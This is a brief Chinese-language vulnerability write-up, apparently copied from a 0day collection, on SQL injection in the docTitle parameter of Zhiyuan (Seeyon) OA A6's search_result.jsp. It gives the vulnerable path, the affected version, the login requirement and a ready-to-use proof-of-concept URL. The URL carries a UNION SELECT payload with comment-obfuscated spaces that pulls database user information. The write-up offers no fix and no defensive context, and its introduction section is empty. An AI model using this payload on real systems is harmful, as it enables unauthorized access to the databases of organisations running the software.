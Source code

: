 # 致远 OA A6 search_result.jsp sql 注入漏洞

> 原文：[http://book.iwonder.run/0day/致远 oa/3.html](http://book.iwonder.run/0day/致远 oa/3.html)

## 一、漏洞简介

## 二、漏洞影响

致远 OA A6

## 三、复现过程

##### 漏洞位置:

```
/yyoa/oaSearch/search_result.jsp 
```

##### 漏洞详情:

```
版本：A6
注意：需登录账户
注入发生在 search_result.jsp 文件中的 docTitle 参数 
```

##### 请求方式:

```
Get 
```

##### POC:

```
http://www.0-sec.org/yyoa/oaSearch/search_result.jsp?docType=协同信息&docTitle=1'and/**/1=2/**/ union/**/all/**/select/**/user(),2,3,4,5%23&goal=1&perId=0&startTime=&endTime=&keyword=&searchArea=notArc 
```

